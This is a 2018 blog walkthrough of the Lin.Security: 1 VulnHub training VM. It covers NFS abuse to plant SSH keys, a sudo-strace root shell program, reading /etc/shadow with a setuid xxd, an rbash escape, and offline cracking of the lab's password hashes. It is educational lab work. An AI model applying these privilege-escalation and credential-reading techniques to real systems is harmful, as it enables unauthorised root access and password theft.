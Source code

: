 ```yaml
---
layout: post
date: 2018-08-18 13:12:15 +0000
last_modified_at: 2018-08-28 04:43:27 +0000
title: "Lin.Security: 1 Walkthrough"
subtitle: "Not Too Secure"
category: Walkthrough
tags: [VulnHub, Lin.Security]
comments: true
image:
  feature: lin.security-1-walkthrough.jpg
  credit: aitoff / Pixabay
  creditlink: https://pixabay.com/en/rope-frayed-old-coiled-strand-2189420/
---
```


This post documents the complete walkthrough of Lin.Security: 1, a boot2root [VM][1] created by [in.security][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

Here at in.security we wanted to develop a Linux virtual machine that is based, at the time of writing, on an up-to-date Ubuntu distro (18.04 LTS), but suffers from a number of vulnerabilities that allow a user to escalate to `root` on the box. This has been designed to help understand how certain built-in applications and services if misconfigured, may be abused by an attacker.

We have configured the box to simulate real-world vulnerabilities (albeit on a single host) which will help you to perfect your local privilege escalation skills, techniques and toolsets. There are a number of challenges which range from fairly easy to intermediate level, and we’re excited to see the methods you used to solve them!

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7a:9b:b9:32:6f:95:77:10:c0:a0:80:35:34:b1:c0:00 (RSA)
|   256 24:0c:7a:82:78:18:2d:66:46:3b:1a:36:22:06:e1:a1 (ECDSA)
|_  256 b9:15:59:78:85:78:9e:a5:e6:16:f6:cf:96:2d:1d:36 (ED25519)
111/tcp   open  rpcbind  syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  3           2049/udp  nfs
|   100003  3,4         2049/tcp  nfs
|   100005  1,2,3      41225/tcp  mountd
|   100005  1,2,3      44576/udp  mountd
|   100021  1,3,4      38947/tcp  nlockmgr
|   100021  1,3,4      59622/udp  nlockmgr
|   100227  3           2049/tcp  nfs_acl
|_  100227  3           2049/udp  nfs_acl
2049/tcp  open  nfs_acl  syn-ack ttl 64 3 (RPC #100227)
38947/tcp open  nlockmgr syn-ack ttl 64 1-4 (RPC #100021)
41225/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
41683/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
51813/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
```

`nmap` finds `22/tcp` and `111/tcp` open. I don't see the usual `80/tcp`, which is unfortunate. We have to rely on other means to gain a foothold into the VM.

## Network File System

Good thing for us, NFS is available. Using `showmount`, we can display the exports on the VM.

```
# showmount -e 192.168.30.129
Export list for 192.168.30.129:
/home/peter *
```

Let's mount the remote directory.

```
# mkdir -p /mnt/peter
# mount -t nfs 192.168.30.129:/home/peter /mnt/peter
# ls -la /mnt/peter
total 32
drwxr-xr-x 5 1001 1005 4096 Jul 10 19:49 .
drwxr-xr-x 4 root root 4096 Aug 18 11:11 ..
-rw-r--r-- 1 1001 1005  220 Jul  9 19:53 .bash_logout
-rw-r--r-- 1 1001 1005 3771 Jul  9 19:53 .bashrc
drwx------ 2 1001 1005 4096 Jul 10 10:04 .cache
-rw-rw-r-- 1 1001 1005    0 Jul 10 10:04 .cloud-locale-test.skip
drwx------ 3 1001 1005 4096 Jul 10 10:04 .gnupg
drwxrwxr-x 3 1001 1005 4096 Jul 10 08:03 .local
-rw-r--r-- 1 1001 1005  807 Jul  9 19:53 .profile
```

Now that I've mapped `/home/peter` to `/mnt/peter`, let's see if I create `.ssh` directory in `/home/peter`.

```
# mkdir -p /mnt/peter/.ssh
mkdir: cannot create directory ‘/mnt/peter/.ssh’: Permission denied
```

Hmm. Not even when I'm `root`? Let's create a fake `peter` account with an UID of `1001` on my machine.

```
# useradd -u 1001 peter
# su peter
$ cd /mnt/peter
$ mkdir .ssh
```

Awesome. Now, I can put the SSH public key I control into `/home/peter/.ssh/authorized_keys`.

First, we generate the SSH Key pair on my machine.

```
# ssh-keygen -t rsa -b 2048
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): peter
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in peter.
Your public key has been saved in peter.pub.
The key fingerprint is:
SHA256:TuGkIRfE6ODlItT4jp9ILW/8oGRTEa7JLCDI5dgKnMs root@kali
The key's randomart image is:
+---[RSA 2048]----+
|  oo +o          |
|+oO.+ ..         |
|**.X. o o        |
|O B.+o = .       |
|.E+o  . S        |
|.+.o   o         |
|.+*..   .        |
|o.o*.            |
| .. ..           |
+----[SHA256]-----+
```

Next, we copy and paste the contents of `peter.pub` to `/mnt/peter/.ssh/authorized_keys`.

```
$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1rYFvo6Wh4j44p4s6WfDYb637m62zA0CwE5t9K6iKbosZMpeDBGP2q8C2O3yw2P9Dhv3jRPCutf1ruadaMxxiOY8Ook/3fwMcaueCAs0ThKCMRlnf0yzUnEHH7t82MrEghMnL4GfUcYlxIwo8d5jQe7umuJneYK786iDNEPaEajC45GQlrZWCzIWqs3B3vJBQ4FR766EHsmiKVWvQ35uR69/O39IePJQ8oSTF+PK0RoCtvmYt44jeqUO0NfYGeCGwqtYW/i+ILTOkW45bYRVjhmrJ2C+yjtK3bsmDiq28IT9STCFlkI7OqEfJkeYqBSJVqVqOkFFvx4+7fyTpchT/ > /mnt/peter/.ssh/authorized_keys
```

Open another `terminal` and log in to `peter`'s account with the SSH private key.

![peter](/assets/images/posts/lin.security-1-walkthrough/228fe4f8.png)

## Privilege Escalation

During enumeration of `peter`'s account, I found something interesting.

![sudo](/assets/images/posts/lin.security-1-walkthrough/1fc14ac6.png)

`peter` is able to `sudo` as `root` for `/usr/bin/strace`, used for tracing system calls and signals.

Holy cow. This means that I can do something like this—write a privilege escalation program and run it through `strace` with the blessing of `sudo`—all without password.

<div class="filename"><span>root.c</span></div>

```c
#include <stdlib.h>
#include <unistd.h>

int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```

Let's give it a shot.

![root](/assets/images/posts/lin.security-1-walkthrough/fe6a2b56.png)

:dancer:

## Afterthought

There's more than one way of becoming `root`. The most obvious way is to log in with `bob:secret` as suggested in the VM's description.

![bob](/assets/images/posts/lin.security-1-walkthrough/367b19d3.png)

Display `/etc/passwd`. Observe `insecurity` has its password hash in it and has `root` privileges

![/etc/passwd](/assets/images/posts/lin.security-1-walkthrough/a135634c.png)

We can copy that line and send it to **John the Ripper** for offline cracking like this.

```
# john --format=crypt --show hash.txt
insecurity:P@ssw0rd:0:0::/:/bin/sh

1 password hash cracked, 0 left
```

Another way is to discover `susan`'s password in her home directory either through `bob`'s account or `peter`'s account described above.

![susan](/assets/images/posts/lin.security-1-walkthrough/c1174f4d.png)

You'll soon notice that `susan` is using `rbash` or restricted `bash`. It's almost trivial to escape from `rbash`—execute `bash -i`.

Now that we have escaped the restricted shell, something caught my eye while I was performing enumeration on `susan`'s account.

![xxd](/assets/images/posts/lin.security-1-walkthrough/e2d6c4d0.png)

`xxd` can display the hexdump or convert to hexadecimal representation (through `-p`) of any file it has read permissions. Since `xxd` is `setuid` to `root`, we can use it to read `/etc/shadow` like so.

![/etc/shadow](/assets/images/posts/lin.security-1-walkthrough/72640ded.png)

We can copy both `/etc/passwd` and `/etc/shadow` to our attacking machine for offline cracking with **John the Ripper**, in which case the `root` password is `secret123`.

```
# john --format=crypt --show hashes.txt
root:secret123:0:0:root:/root:/bin/bash
bob:secret:1000:1004:bob:/home/bob:/bin/bash
insecurity:P@ssw0rd:0:0::/:/bin/sh

3 password hashes cracked, 2 left
```

I'm sure this is not exhaustive. Kudos to [in.security](https://in.security/) for creating this VM. No better way to learn than hands-on practice.

[1]: https://www.vulnhub.com/entry/linsecurity-1,244/
[2]: https://twitter.com/@insecurity_ltd
[3]: https://www.vulnhub.com/

